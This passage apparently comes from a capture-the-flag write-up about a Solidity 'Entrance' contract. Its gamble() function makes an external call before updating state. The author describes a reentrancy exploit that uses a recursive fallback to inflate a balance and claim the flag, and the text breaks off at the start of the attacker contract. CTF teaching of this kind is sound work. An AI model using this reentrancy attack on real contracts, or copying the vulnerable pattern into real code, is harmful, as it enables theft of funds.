   modifier legit(uint256 _pin) {
    if (_pin == pin) _;
  }

  modifier onlyNewPlayer {
    if (has_played[msg.sender] == false) _;
  }

  constructor(uint256 _pin) public {
    pin = _pin;
  }

  function enter(uint256 _pin) public legit(_pin) {
    balances[msg.sender] = 10;
    has_played[msg.sender] = false;
  }

  function balanceOf(address _who) public view returns (uint256 balance) {
    return balances[_who];
  }

  function gamble() public onlyNewPlayer {
    require (balances[msg.sender] >= 10);
    if ((block.number).mod(7) == 0) {
      balances[msg.sender] = balances[msg.sender].add(10);
      // Tell the sender he won!
      msg.sender.call("You won!");
      has_played[msg.sender] = true;
    } else {
      balances[msg.sender] = balances[msg.sender].sub(10);
    }
  }

  function getFlag(string memory _server, string memory _port) public {
    require (balances[msg.sender] > 300);
    emit EntranceFlag(_server, _port);
  }
}
{{< /highlight >}}

One can exploit the contract by writing another contract with an unnamed fallback function which calls `gamble()` again recuresively until the Ethereum transaction is out of gas. With enough gas the balance will reach at least 300 and `getFlag()` can be called with a server and port where the flag will be delivered.

I wrote the following contract:

{{< highlight solidity "linenos=table" >}}
pragma solidity >=0.4.21 <0.6.0;

import "browser/Entrance.sol";

contract ReEntrance {
  Entrance public entrance;
  string server;
  string port;
